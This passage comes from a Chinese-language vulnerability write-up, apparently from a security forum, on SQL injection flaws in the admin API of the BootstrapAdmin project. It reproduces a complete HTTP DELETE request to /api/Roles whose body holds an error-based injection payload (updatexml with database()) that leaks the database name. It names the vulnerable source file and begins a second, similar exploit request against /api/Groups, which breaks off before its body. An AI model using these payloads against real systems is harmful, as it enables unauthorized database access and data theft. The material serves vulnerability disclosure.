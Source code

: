 请求包：

```python
DELETE /api/Roles HTTP/1.1
Host: localhost:50852
Content-Length: 47
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:50852
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:50852/Admin/Roles
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: .AspNetCore.Antiforgery.a2HlFfgw_P8=CfDJ8Gs8oXs1rxRKjEnWjDIDxNYIk8qTrVAchQMdNQDsqE0fBboelKrRDrSlcNGeSNFI1jNSivWc5b5t8tkI1SES8xumGS6HdMyCcTFdEqocP7y74P26iG_iKW6RRYrazzhQNkcvDfYzcxAzdbm-f5FqO88; .AspNetCore.Cookies=CfDJ8Gs8oXs1rxRKjEnWjDIDxNaE3CXKRjutQdTU9MI2xO1nRk7yd-9PgK41JPtnvxNoybJwZclKPosGkyWisjmmpaB2xJkLw04jWnB1ZpvrHYBNhbm02wR62IXpOdYVnmBRgSs7UrKRDnk-fAR9CRWNiYrLr5Dq9irg-R7uxSbuwu1A-eKvcQUsLvd_nvlRmExl_ay-3wo0v1rvUe1pwpbhyzzda5HLQbh0XOMmor5h0q66o9vFYO5dgBUGqYxpBidWCv0PoKzqGQeA_8dxsBolEctWPrQEKakod3mJ1HrIKQR1
Connection: close

["updatexml(1,concat(0x7e,database(),0x7e),3)"]
```

### 漏洞定位

`BootstrapAdmin\src\mvc\admin\Bootstrap.DataAccess\Role.cs`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-5de24e20b33ac2d51e58a6c091fe0e74deb24723.png)

【后台】删除群组信息存在SQL注入
-----------------

权限：后台管理员用户权限

### 漏洞利用

`http://localhost:50852/api/Groups`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-f91f20008f5419da246b527d544a6f44726cac52.png)

请求包：

```python
DELETE /api/Groups HTTP/1.1
Host: localhost:50852
Content-Length: 47
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:50852
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
```